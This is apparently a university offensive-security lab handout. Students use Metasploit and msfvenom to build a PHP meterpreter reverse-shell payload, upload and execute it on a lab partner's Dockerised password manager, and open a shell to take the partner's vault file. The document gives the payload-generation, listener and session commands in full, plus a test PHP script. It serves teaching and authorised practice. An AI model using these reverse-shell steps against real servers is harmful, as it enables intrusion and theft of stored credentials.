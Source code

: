 # Week 5 | Offensive

```
      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .
```

## Part 0: Adding our Sensitive Information

In the last lab, you were asked to create a new user account, create a new vault, and add some passwords along with sensitive information in the form of a .txt file. If you have not done this yet, please do so now as this will be the asset your lab partners are after when they hack your password manager.

### It is super important that you DO NOT delete volumes when redeploying your web application if you want to save the information you have added to your docker container.

You can think of the volumes in Docker as the storage used by each container. When we first spin up our web application, these volumes are generated and storage on your machine is allocated for each container.

When we create new user accounts, add passwords, and upload files, these are all stored within the volumes for our containers. This is why it is extremely important when we run redeploy to NOT delete these volumes.

It may also be more beneficial to run `start.py` and `stop.py` rather than the `redeploy.py` script as these will not delete any data we have added.

## Part 1: Planning our Attack
Some helpful definitions to recall from lecture are:
- `Vulnerability`: A weakness which can be exploited by a threat actor, such as an attacker.
- `Exploit`: A piece of code written to take advantage of a particular vulnerability.
- `Payload`: A piece of code to be executed through said exploit on a specific target.
- `Target`: A system being exploited and that will run the payload.

In this lab, we will be crafting a payload to take advantage of a vulnerability on the target machine.

1. We need to identify a vulnerability. How can we get a piece of code onto our password manager?
    - Note that this should also be a place where we can **execute** the payload. We need to be able to run our code once we somehow get it onto our target machine.

Once we have identified our vulnerability, we can begin crafting our payload!

## Part 2: Setting up Metasploit

Metasploit is a framework that allows penetration testers to identify, exploit, and validate vulnerabilities in a system. It includes an extensive set of tools specifically for penetration testing. We can use the tools to generate payloads that will allow us to easily attack a system.

We will be utilizing metasploit through a Docker container. In a "real" pen testing role, you may find it more beneficial to use metasploit via a virtual machine running Kali Linux, a distribution of Linux that includes a host of tools for offensive security (including metasploit)! For our purposes, a Docker container will allow us to quickly and easily access the tools we need.

1. First, we need to deploy a docker container running metasploit. Run the following command to pull the metasploit image and spin up a container with that new image.

    ```
    docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework
    ```

    Your terminal should now be running the metasploit docker container! You should see something similar to the following output:

    ![metasploit contianer](/lab-writeup-imgs/metasploit_container.png)

    Two things to take note of, the ASCII art will most likely be different, and your LHOST should be printed at the bottom of the terminal (highlight in red in the image above). This is the IP address of the docker container running metasploit. You should take note of this IP address as we will need to use it during the lab.


## Part 3: Crafting our Payload

As mentioned above, metasploit comes with a suite of tools for us to use for pentesting and offensive security purposes. One of those tools being msfvenom. Msfvenom lets us generate customized payloads for our specific attack. We will be using msfvenom to easily craft the payload we will be using in this lab!

The payload we will be crafting will be built off of the `meterpreter` payload. This payload provides an interactive shell between the victim's machine and the attacker's machine. This shell will allow us to explore our target and execute commands on their device!

Before we make our payload, we can use this simple script to see if we can actually run code on the server:

    ```
    <?php
    $files = scandir(getcwd());
    print_r($files);
    ?>
    ```
Save this as a `.php` file and try to run it on the server!

Once we confirmed this is possible, we can proceed with making our malware!

1. To generate our payload, we will use the following command:

    ```
    /usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw
    ```

    - `-p php/meterpreter_reverse_tcp`: This specific payload builds the meterpreter payload in PHP, which is what we want since we know that the target is a PHP server. 

        The `reverse_tcp` part refers to the type of network communication method that this payload will establish. Essentially, we are creating forcing the victim's machine to connect to a service that will be running off of our machine, hence the 'reverse' part.

    - `LHOST=<Your EXTERNAL IP address> LPORT=4444`: We then set the `LHOST` and `LPORT` to match the IP address and the port that the victim will be connecting to.

        Since your target's password manager is running on their machine outside of your own internal docker network, the LHOSt must be set as your IP address, which you can find by running `ipconfig` or `ifconfig`.

    - `-f raw`: This specifies the payload should be 'raw' output, meaning it will just print to our terminal rather than being saved to a file.

2. Once you have run the command above, you should get a large output in your terminal. This is our payload! We can copy it and paste it into a `.txt` file on our machine. Make sure you save it as `reverse_tcp.php`, so that it can be executed as a PHP script.

    - Note that the payload will have a comment tag at the beginning. This is to ensure that the payload does not accidentally execute! We can remove this before saving so that the payload will run on our target machine.

## Part 4: Setting up our attacking machine
1. To select this payload, run the following command in the msfconsole container:

    ```
    use php/meterpreter/reverse_tcp
    ```

2. Once we have selected this payload, let's double check that all of our options are configured correctly. Run the following command to see all options we can configure:

    ```
    options
    ```

    You should see two possible options, `LHOST` and `LPORT`.

    - LHOST: This is the address of the machine the victim will try to connect to during our attack. It is the address that should have the service "**L**istening" for a connection. This should match the LHOSt you saw in part 1.
    - LPORT: This is the port the service will be "**L**istening" on.

    These two options should already be configured by default to match your metasploit container's IP address and the appropriate port (4444).

3. Next, we will run the following command to start the service. It will be listening on port 4444 for incoming connections from our victim's machine.

    ```
    exploit
    ```

## Part 5: Attacking the Password Manager >:)

By now, you have the service listening within your metasploit container and have successfully placed the payload on the target's machine.

We need to now somehow execute the payload to establish a connection from the target's device to our attacking machine. Can you think of a way that we can run the payload?

Once you have successfully executed the payload, you can list all of your sessions running in metasploit with the following command:

```
sessions -l
```

You should see your sessions listed with a session ID. To interact with the session of interest, enter the following command with the session ID:

```
sessions -i <ID>
```

You should now be able to access the shell connected with the victim's machine! Start exploring the target and see if you are able to extract the information from their personal vault!

## For credit:

Take a screenshot of the shell session you established, along with the .txt file uploaded by your lab partner!